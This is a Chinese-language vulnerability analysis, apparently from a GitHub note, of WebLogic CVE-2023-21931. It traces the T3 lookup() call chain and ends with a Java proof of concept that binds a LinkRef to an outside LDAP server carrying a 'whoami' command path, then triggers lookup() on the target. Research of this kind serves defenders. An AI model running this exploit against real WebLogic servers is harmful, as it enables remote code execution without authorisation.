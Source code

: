 参考https://github.com/gobysec/Weblogic/blob/main/WebLogic_CVE-2023-21931_zh_CN.md

查看t3的lookup()方法的调用栈：

- Weblogic在接收到请求后，通过`BasicServerRef`类中的`invoke()`方法解析传入数据。
- 通过`_invoke()`方法，Weblogic根据传入的方法名`resolve_any` 执行的`resolve_any()`方法。
- 在`resolve_any()`方法中，通过`resolveObject()`方法对传入的绑定命名进行解析。
- 在`resolveObject()`方法中，根据上下文信息调用其中的`lookup()`方法。
- 根据上下文中的信息，经过在`WLContextImpl`、`WLEventContextImpl`、 `WLEventContextImpl` 、`RootNamingNode  `、`ServerNamingNode` 、`BasicNamingNode`类中一系列的`lookup()`方法调用，实现`BasicNamingNode`类中的`resolveObject()`方法调用。
- 由于传入`resolveObject()`方法中的obj不是`NamingNode`类的实例，且`mode`的值默认为1，所以会调用`WLNamingManager`类中的`getObjectInstance()`方法。

最终，可以看到`WLNamingManager`类的`getObjectInstance()`方法根据传入的对象接口类型，调用对象中的`getReferent()`方法，完成漏洞触发点的`lookup()`方法调用。实际上这两个CVE漏洞都是通过`getObjectInstance()`的两个分支触发的。



### POC

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.LinkRef;
import java.util.Hashtable;
//import weblogic.jndi.internal.WLNamingManager;
public class exp {
    public static void main(String[] agrs) throws Exception {
        String url = "t3://192.168.79.133:7001";
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";
        Hashtable ht = new Hashtable();
        ht.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        ht.put(Context.PROVIDER_URL, url); // 目标
        InitialContext c = new InitialContext(ht);
        LinkRef LR = new LinkRef("ldap://192.168.10.14:1389/Basic/Command/whoami");
        c.rebind("poc", LR);
        c.lookup("poc");
    }
}
```







